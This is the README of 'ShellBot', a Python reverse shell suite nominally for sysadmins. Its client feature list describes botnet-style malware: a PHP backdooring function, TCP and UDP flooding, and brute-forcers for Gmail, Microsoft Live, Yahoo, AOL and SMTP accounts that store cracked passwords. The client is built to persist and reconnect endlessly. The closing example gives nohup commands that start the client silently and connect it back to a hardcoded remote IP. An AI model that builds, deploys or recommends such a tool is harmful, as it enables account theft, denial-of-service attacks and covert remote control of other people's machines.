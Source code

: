 # ShellBot

##### An advanced reverse shell written in Python3.

###### Based on `dotcppfile`'s [Awrs](http://dotcppfile.wordpress.com/2014/11/03/awrs-advanced-clientserver-windowslinux-python-reverse-shell/).

---

ShellBot is a cross-platform Remote Shell Suite where the Server can be managed by 1 Controller at a time.

A server can accept several clients at once, and relay a chosen client's shell to the controller.

This makes it easy for an SysAdmin to manage several computers with minimal setup in an internal network.

The ShellBot suite is designed in such a way that it will not stop till a connection is achieved. All errors are handled internally and in case of a crash, the program automatically restarts.

---

#### Features:

##### Server:
1. Can handle multiple connections all at once.
1. The Controller’s connection requires a plain text password, it’s not the best security, but at-least it is better than nothing. Will be improved on in future revisions.
1. Kicks the Controller after 5 mins. This was added just in case someone forgot his Controller on which won’t allow other controllers to connect (since the Server only accepts 1 controller at a time). TODO: Make it 5 minutes after inactivity.

##### Client:
1. Infected PHP Backdooring Function. <i>(Linux Only)<i>
1. TCP Flood.
1. UDP Flood.
1. Gmail Bruteforcer. (Workaround GMail's SMTP login)
1. MS Live Bruteforcer.
1. Yahoo Bruteforcer.
1. AOL Bruteforce.
1. Custome SMTP Bruteforcer.
(if found, the password will be saved in "password.txt" client-side)
1. <del>OTA Updating.</del>
1. Indestructible Shell: Handles No Output, Wrong, Interactive and Infinite commands will result in losing the shell.
1. Can handle multiple commands separated by semi-colon (;).
1. Never closes and is always trying to connect to the Server.
1. Can handle almost any non-interactive command properly.
1. Uses very less resources.
1. Can be packaged into executables with tools like pyInstaller. 

##### Controller:
1. Handles `KeyboardInterrupts`, empty commands, etc. perfectly.
1. Easy user interface.

**Note:** When trying to start the client through SSH, Terminal or any other interactive shell, it is advised to start the client in another process. This can be done in Linux with `nohup`.

###### Example:

```sh
nohup python3 client.py 15.48.158.15 1567 > /dev/null &

nohup python3 client.py 15.48.158.15 1567 > /dev/null 2>&1 &
```